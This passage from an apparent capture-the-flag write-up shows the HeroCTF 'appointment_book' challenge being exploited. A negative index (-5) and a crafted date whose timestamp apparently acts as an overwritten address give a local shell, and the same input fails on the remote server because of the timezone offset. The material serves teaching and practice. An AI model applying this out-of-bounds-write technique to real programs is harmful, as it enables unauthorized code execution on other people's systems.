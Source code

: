 We can notive something interesting here, the resultat is not the same following your time zone (which seems legit). My local test is working fine:

```bash
$ ./appointment_book 
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-13 20:29:38

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 2
[+] Enter the index of this appointment (0-7): -5
[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): 1970-02-18 15:27:02                      
[+] Converted to UNIX timestamp using local timezone: 4199222
[+] Enter an associated message (place, people, notes...): don't care

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 3

[+] Good bye!
$ id
uid=1000(soeasy) gid=1000(soeasy) groupes=1000(soeasy),4(adm),24(cdrom),27(sudo),30(dip),44(video),46(plugdev),109(kvm),122(lpadmin),134(lxd),135(sambashare),140(libvirt),999(docker)
```

Then if I try in remote it won't work:

```bash
$ nc static-03.heroctf.fr 5000
========== Welcome to your appointment book. ==========

[LOCAL TIME] 2023-05-13 18:32:16

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 2
[+] Enter the index of this appointment (0-7): -5
[+] Enter a date and time (YYYY-MM-DD HH:MM:SS): 1970-02-18 15:27:02
[+] Converted to UNIX timestamp using local timezone: 4202822
[+] Enter an associated message (place, people, notes...): don't care

***** Select an option *****
1) List appointments
2) Add an appointment
3) Exit

Your choice: 3

[+] Good bye!
id
^C
```
